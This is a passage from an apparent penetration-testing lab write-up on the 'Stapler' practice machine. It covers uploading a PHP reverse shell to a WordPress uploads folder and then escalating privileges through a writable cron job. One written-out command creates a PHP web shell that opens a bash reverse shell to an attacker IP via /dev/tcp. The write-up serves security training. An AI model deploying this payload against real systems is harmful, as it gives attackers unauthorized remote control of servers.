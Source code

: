 Creating a reverse shell php file.

```
echo '<?php exec("/bin/bash -c '\''bash -i >& /dev/tcp/192.168.49.172/80 0>&1'\''");?>' > shell.php
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_22h11m11s_008.png)

Uploading shell.php file to server. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_22h15m35s_009.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_22h15m57s_010.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_22h16m40s_011.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_22h17m41s_012.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_22h18m12s_013.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_22h33m26s_014.png)

Starting a listener on port 80 and then browse to to plugin url ```https://192.168.172.148:12380/blogblog/wp-content/uploads/shell.php```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_22h33m55s_015.png)

We get the shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_22h35m47s_016.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_22h36m5s_017.png)

#### Privilege Escalation

We find a cron job with inappropriate permission settings in the execution of linpeas.sh results.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_23h42m16s_018.png)

We have the permission to modify the job file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_23h45m19s_019.png)

Creating the file with reverse shell command and replcae the original job.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_23h46m49s_020.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_23h52m50s_021.png)

Starting a listener on port 80 and wait for minutes.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Stapler/Stapler_2022.02.24_23h53m3s_022.png)
